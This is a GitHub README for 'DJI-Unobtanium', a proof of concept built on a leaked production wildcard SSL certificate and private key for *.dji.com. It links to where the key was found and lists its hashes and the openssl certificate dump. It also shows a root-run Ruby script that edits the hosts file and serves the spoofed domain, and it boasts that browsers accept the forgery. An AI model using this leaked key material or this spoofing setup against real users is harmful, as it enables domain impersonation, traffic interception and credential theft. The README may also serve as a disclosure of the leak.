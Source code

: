 # DJI-Unobtanium
"a highly desirable material that is hypothetical, scientifically impossible, extremely rare, costly, or fictional, or has some of these properties in combination."

A DJI dev unfortunately left a copy of the production SSL cert on a public GitHub repo. This cert was originally obtained from:
https://github.com/lizhanbin/real_time_serve_v1/blob/master/cert/

MD5 (dji_com.crt) = c25e14b10cd8cabc5f0e77e69a22835b
MD5 (dji_com.key) = c77b748a6e768dd665dda8cf9b335dfb

$ openssl x509 -in dji_com.crt -text -noout
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            5a:e6:da:8b:0d:b8:f0:1f:04:f6:3b:fb
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=BE, O=GlobalSign nv-sa, CN=AlphaSSL CA - SHA256 - G2
        Validity
            Not Before: Jun  4 10:00:32 2017 GMT
            Not After : Jun  5 10:00:32 2018 GMT
        Subject: OU=Domain Control Validated, CN=*.dji.com
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
            RSA Public Key: (2048 bit)
                Modulus (2048 bit):
                    00:f9:52:eb:9b:4c:fa:9d:10:5b:64:bc:88:47:6c:
                    bf:7d:f6:69:4e:9d:c5:3b:13:d7:75:09:30:a5:97:
                    35:0f:b2:8d:d7:a3:a2:96:1f:27:4a:f9:80:c6:0a:
...

$ sudo ruby Unobtanium.rb 
Password:
Running as root... thanks!
Original Gangsters are already in your hosts file
[2017-09-02 23:17:16] INFO  WEBrick 1.3.1
[2017-09-02 23:17:16] INFO  ruby 2.2.7 (2017-03-28) [x86_64-darwin16]
[2017-09-02 23:17:16] INFO  
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            5a:e6:da:8b:0d:b8:f0:1f:04:f6:3b:fb
    Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=BE, O=GlobalSign nv-sa, CN=AlphaSSL CA - SHA256 - G2
        Validity
            Not Before: Jun  4 10:00:32 2017 GMT
            Not After : Jun  5 10:00:32 2018 GMT
        Subject: OU=Domain Control Validated, CN=*.dji.com
...
[2017-09-02 23:18:02] ERROR not found.
localhost - - [02/Sep/2017:23:18:02 EDT] "GET / HTTP/1.1" 404 296
- -> /
...

This quick test shows we can now spoof "https://*.dji.com" and our brower will be happy none the wiser! 
<img src="https://github.com/MAVProxyUser/DJI-Unobtanium/raw/master/OGSSL.jpg">

Here we used https://originalgangsters.dji.com

The internet can't agree on the spelling... but one thing is for sure, this shit is IMPOSSIBLE to get ahold of. 
<img src="https://github.com/MAVProxyUser/DJI-Unobtanium/raw/master/Unobtanium.jpg">
